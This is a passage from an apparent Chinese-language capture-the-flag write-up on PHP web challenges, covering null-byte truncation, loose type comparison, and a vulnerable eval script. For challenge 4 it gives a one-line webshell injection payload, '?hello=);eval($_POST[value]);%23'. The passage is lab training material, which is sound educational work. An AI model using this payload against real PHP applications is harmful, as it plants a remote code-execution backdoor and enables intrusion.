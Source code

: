 ①长度大于五

②截取b的第一位和111拼接能和1114匹配

③b的第一位不为4

id-->

①不为0或NULL（不为空）

②弱等于0



> a:   $a=php://input;     post:1112 is a nice lab!
> b:   %00截断，%00截断对substr有效，对strlen无效（即%00不会对strlen截断）
> php弱类型比较，数字与字符串等值比较时，字符串取开头的有效数字，无则为0





# challenge 4

**源码**

```php
<?php 
error_reporting(0);
show_source(__FILE__);

$a = @$_REQUEST['hello'];
eval("var_dump($a);"); 
```



> 构造一句话木马   `?hello=);eval($_POST[value]);%23`
> 当var_dump($a);后的结果为：`string(22) ");eval($_POST[value]);#"`
> `eval("string(23) ");eval($_POST[value]);//"");`

> PHP对于双引号包裹起来的字符串要进行扫描计算，单引号则不管内容如何都会原样输出而不会进行计算。



# challenge 5

**源码**

```php
<?php
if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else{
	echo '<p>Login first!</p>';
?>
```
